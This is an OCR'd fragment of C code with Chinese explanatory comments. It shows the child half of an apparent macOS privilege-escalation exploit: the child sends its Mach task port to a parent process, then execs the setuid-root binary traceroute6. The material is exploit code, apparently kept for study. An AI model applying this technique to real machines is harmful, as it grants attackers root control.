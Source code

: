 ```
  if (err != KERN_SUCCESS) {
    mach_error("child can't get service port", err);
    return;
  }

  // create a reply port:
  // 创建一个具有接受消息权限的port
  mach_port_t reply_port;
  err = mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &reply_port);

  if (err != KERN_SUCCESS) {
    mach_error("child unable to allocate reply port", err);
    return;
  }

  // send it our task port
  // 将子进程的port发送给父进程
  task_msg_send_t msg = {0};

  msg.header.msgh_size = sizeof(msg);
  msg.header.msgh_local_port = reply_port;
  msg.header.msgh_remote_port = service_port;
  msg.header.msgh_bits = MACH_MSGH_BITS (MACH_MSG_TYPE_COPY_SEND, MACH_MSG_TYPE_MAKE_SEND_ONCE) | MACH_MSGH_BITS_COMPLEX;

  msg.body.msgh_descriptor_count = 1;

  msg.port.name = mach_task_self();
  msg.port.disposition = MACH_MSG_TYPE_COPY_SEND;
  msg.port.type = MACH_MSG_PORT_DESCRIPTOR;

  err = mach_msg_send(&msg.header);

  if (err != KERN_SUCCESS) {
    mach_error("child unable to send thread port message", err);
    return;
  }

  // wait for a reply to ack that the other end got our thread port
  // 等待父进程回复
  ack_msg_recv_t reply = {0};
  err = mach_msg(&reply.header, MACH_RCV_MSG, 0, sizeof(reply), reply_port, MACH_MSG_TIMEOUT_NONE, MACH_PORT_NULL);

  if (err != KERN_SUCCESS) {
    mach_error("child unable to receive ack", err);
    return;
  }

  // exec the suid-root binary
  // 执行setuid的程序traceroute6
  char* argv[] = {suid_binary_path, "-w", "rofl", NULL};
  char* envp[] = {NULL};
  execve(suid_binary_path, argv, envp);
}

```
